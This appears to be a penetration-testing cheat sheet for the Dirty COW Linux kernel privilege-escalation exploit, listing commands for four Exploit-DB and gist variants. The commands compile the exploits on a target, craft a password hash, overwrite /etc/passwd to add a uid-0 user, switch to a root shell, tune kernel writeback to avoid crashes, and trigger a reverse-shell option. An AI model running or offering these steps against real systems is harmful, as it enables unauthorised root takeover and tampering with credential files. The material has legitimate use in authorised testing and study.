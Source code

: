 ## dirty cow - 40611.c

### compile on target
```
gcc -pthread 40611.c -o dirtyc0w
```

### generate hash for /etc/passwd
```
openssl passwd -1 -salt <user> <password>
```

### append new user to /etc/passwd
```
./dirtyc0w /etc/passwd "<user>:<hash>:0:0:root:/bin/bash"
```

### change to root shell
```
su <user>
```

## another variant - 40839.c

### compile on target
```
gcc -pthread 40839.c -o dirty -lcrypt
```

### append new user to /etc/passwd
```
./dirty <password>
```

### change to root shell
```
su firefart
```

## another variant - https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c

### compile on target - (un)comment correct payload first (x86 or x64)
```
gcc cowroot.c -o cowroot -pthread
```

### run exploit
```
./cowroot
```

### disable dirty writeback may prevent machine from crash
```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

## another variant - 40847.cpp

### compile on target
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### pop reverse shell (automatically disable dirty writeback)
```
./dcow -s
```

### References:
https://www.exploit-db.com/exploits/40611  
https://www.exploit-db.com/exploits/40839  

